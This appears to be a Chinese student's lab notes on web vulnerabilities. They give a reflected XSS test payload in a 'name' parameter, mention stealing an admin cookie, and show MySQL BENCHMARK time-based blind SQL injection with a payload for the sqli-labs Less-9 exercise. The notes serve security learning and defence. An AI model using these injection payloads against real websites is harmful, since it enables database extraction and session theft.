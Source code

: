 客户端是通过传递什么参数来控制服务端代码的？（1分）

	name

客户端通过控制该参数会对服务端造成什么影响，继而使得客户端本身收到影响，从而造成了什么漏洞？如果是xss漏洞，具体又是什么类型的xss漏洞，为什么？（3分）

	反射型xss
	提交name=<script>alert(1)</script>后查看页面源代码，发现
	插入了<script>标签并被网页解析       


![01.png](https://ae04.alicdn.com/kf/U20e43d350dcd492c8cd41f983b285f5dw.jpg)


4.思考：现实中如何利用xss漏洞实施攻击，我们应该如何预防？（1分）

	在网站中插入XSS获得管理员cookie，登录后台管理页面.......       
	
	过滤标签，HTTP-only

### SQL         

`time injection`
`benchmark函数`      
`BENCHMARK(loop_count,expr)`      
loop_count是重复执行的次数，expr是要执行的表达式       


	mysql> select benchmark(100000000,1+1);
	+--------------------------+
	| benchmark(100000000,1+1) |
	+--------------------------+
	|                        0 |
	+--------------------------+
	1 row in set (1.48 sec)        

以此结合and进行时间盲注        

	1=1延时

	mysql> select * from guestbook where comment_id=1 and 1=1 and benchmark(10000000,sha(1));
	Empty set (2.04 sec)

	1=0，不会延时

	mysql> select * from guestbook where comment_id=1 and 1=0 and benchmark(10000000,sha(1));
	Empty set (0.00 sec)


以`sqllab-less-9`为例     
![01.png](https://ae04.alicdn.com/kf/U4e8dd5045c0d4f279cefe3efd1232931i.jpg)      
payload：`1' and ascii(substr(database(),1,1))>0 and(benchmark(10000000,sha(1)))%23`      

###笛卡尔积       
笛卡尔积：   
   
![](https://ae02.alicdn.com/kf/U3af545a58a114e0d89199d96773005e5y.jpg)
